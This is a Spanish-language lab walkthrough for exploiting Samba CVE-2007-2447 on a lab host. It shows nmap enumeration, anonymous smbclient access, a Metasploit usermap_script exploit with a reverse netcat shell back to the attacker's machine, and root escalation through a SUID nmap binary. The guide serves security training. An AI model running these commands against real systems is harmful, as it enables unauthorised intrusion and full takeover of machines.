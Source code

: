 # 🎯 Objetivo del laboratorio:

- Explotar la vulnerabilidad en Samba.
- Obtener acceso remoto.
- Escalar privilegios a root.

# 🧱 1. Información técnica.

| Servicio | Samba (smbd) |
| Puerto | 139 / 445 |
| Versión | Samba 3.X - 4.X |
| Vulnerabilidad | CVE-2007-2447 – Usermap Script |
| Nivel | Medio |
| Explotación | Manual o Metasploit |

# 🛠️ 2. Requisitos previos en Kali.

Verificamos si tenemos en nuestro sistema Linux:

```bash
smbclient --version
msfconsole
```

Si no tenemos instalado alguno de ellos:

```bash
sudo apt update
sudo apt install smbclient metasploit-framework -y
```

# 🧪  3. Enumeración inicial (manual).

Lanzamos desde Kali:

```bash
nmap -p 139,445 --script=smb-enum-shares,smb-enum-users,smb-os-discovery 192.168.56.102
```

Este comando busca:

- Carpetas compartidas (shares).
- Usuarios.
- Información del sistema.

# 🧬 4. Explotación manual paso a paso.

La vulnerabilidad permite ejecutar comandos remotos sin autenticación, aprovechando la opción username map script.

```bash
smbclient -L //192.168.56.102/ -N
```
La consola nos motrará los recursos compartidos.

Intentamos conectarnos a uno:

```bash
smbclient //192.168.56.102/tmp -N
```

En este punto podremos subir y descargar archivos:

```bash
put prueba.txt
````

Con este comando subimos archivos que tengamos en nuestra Kali Linux al sistema que estamos atacando, lo que nos demustra que podemos leer y escribir archivos remotamente sin autenticación.

```bash
get prueba.txt
```

Con este comando obtenemos archivos del sistema que estamos atacando y los almacenamos en nuestro Kali Linux, donde podremos obtener y ver la información.

# ⚡ 5. Explotación automática con Metasploit.

5.1 Iniciamos el framework Metasploit:

```bash
msfconsole
```

5.2 Cargamos el exploit:

```bash
use exploit/multi/samba/usermap_script
```

5.3 Configuramos los parámetros:

```
set RHOSTS 192.168.56.102
set RPORT 139
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.56.101 (aquí introducimos nuestra IP de Kali, no la que atacamos).
```

5.4 Iniciamos el listener en otra ventana:

Antes de ejecutar el exploit, abrimos una terminal nueva y lanzamos:

```bash
nc -lvnp 4444
```

5.5 Ejecutamos el exploit:

```bash
exploit
```

Una vez realizado todos estos pasos, nos mostrará una reverse shell activa en la terminal del netcat donde tendremos acceso como nobody.

```bash
id
uname -a
```

# 🧗 6. Escalada de privilegios.

Una vez que tenemos la shell como usuario limitado, buscaremos formas de escalar privilegios dentro del sistema con:

```bash
find / -perm -4000 -type f 2>/dev/null
```

- Usamos uname -a, id, sudo -l, find / -perm -4000 -type f 2>/dev/null
- Buscamos binarios SUID como nmap, vi, perl, etc.
- Usamos [GTFOBins](https://gtfobins.github.io/) para explotar esos binarios y llegar a root.

Si encontramos:

```bash
/usr/bin/nmap
```

Y observamos que es la versión antigua con una consola interactiva, ejecutamos:

```bash
nmap --interactive
```

Una vez dentro, ejecutamos:

```bash
!sh
```

Y comprobamos:

```bash
id
````

# ✅ Conclusión.

- Samba está mal configurado, permitiendo acceso anónimo.
- La vulnerabilidad CVE-2007-2447 permitió ejecutar comandos sin autenticación.
- Se obtuvo acceso remoto con privilegios root utilizando binarios SUID del sistema.

# 🧠 Lecciones aprendidas.

- Importancia de deshabilitar acceso anónimo en servicios SMB.
- Cómo usar Metasploit para exploits clásicos.
- Práctica real de escalada de privilegios.

